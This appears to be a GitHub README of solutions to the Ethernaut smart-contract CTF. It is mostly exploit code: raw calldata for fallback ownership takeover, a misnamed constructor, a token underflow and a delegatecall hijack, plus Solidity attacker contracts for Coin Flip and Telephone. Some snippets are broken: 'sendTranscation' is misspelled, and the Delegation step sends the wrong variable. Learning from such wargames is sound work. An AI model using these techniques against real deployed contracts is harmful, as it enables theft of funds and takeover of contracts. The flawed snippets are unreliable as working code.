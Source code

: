 # ethernaut-solve
https://ethernaut.openzeppelin.com/

### Hello Ethernaut
```
await contract.authenticate(await contract.address())
```

### Fallback
```
await sendTranscation({from:player, to:contract.address, value:1, data:"0xd7bb99ba"}) // call contribute
await sendTranscation({from:player, to:contract.address, value:1}) // fallback and take owner
await sendTranscation({from:player, to:contract.address, data:"0x3ccfd60b"}) // withdraw
```

### Fallout
낮은 버전 solidity에서 constructor 네이밍 실수
```
await sendTranscation({from:player, to:contract.address, data:"0x6fab5ddf"}) // call Fal1out
```

### Coin Flip
inner tx가 원하는 결과를 반환하지않으면 revert
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlipCaller {
    address public coinFlipAddress = 0x72C860e67CEdfbc8B6Cc2BF9eAf6173be9A758BB;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function callFlip() public {
        bytes memory data = abi.encodeWithSignature("flip(bool)", true);

        (bool success, bytes memory result) = coinFlipAddress.call(data);
        
        if(!abi.decode(result, (bool)) || !success) revert();
    }
}
```

### Telephone
msg.sender = 현재 함수를 직접 호출한 address

tx.origin = 트랜잭션 최초로 호출한 address
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TakeTelephone {
    address public telephone = 0x209eDa374a2DF5ADA2BDd32797763325865935ce;
    address public newOwner = 0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446;

    function changeOwner() public {
        bytes memory data = abi.encodeWithSignature("changeOwner(address)", newOwner);

        (bool success, bytes memory result) = telephone.call(data);
        
        if(!success) revert();
    }
}
```

### Token
underflow를 활용한 토큰 탈취.
0.8부터는 해당 취약점은 개선됨.
```
const toAddress = '0xdead';
const toAddressPadded = '0'.repeat(24) + toAddress.slice(2).padStart(40, '0');

const value = 21;
const valuePadded = value.toString(16).padStart(64, '0');

const data = "0xa9059cbb" + toAddressPadded + valuePadded;
await sendTransaction({from:player, to:contract.address, data});
```

### Delegation
delegatecall은 현재 컨트랙트의 상태와 delegatedContract의 로직을 사용함.
```
const functionSignature = 'pwn()';
const functionSignatureHash = _ethers.utils.keccak256(_ethers.utils.toUtf8Bytes(functionSignature));
const functionSelector = functionSignatureHash.slice(0, 10);
await sendTransaction({from:player, to:contract.address, functionSignature});
```
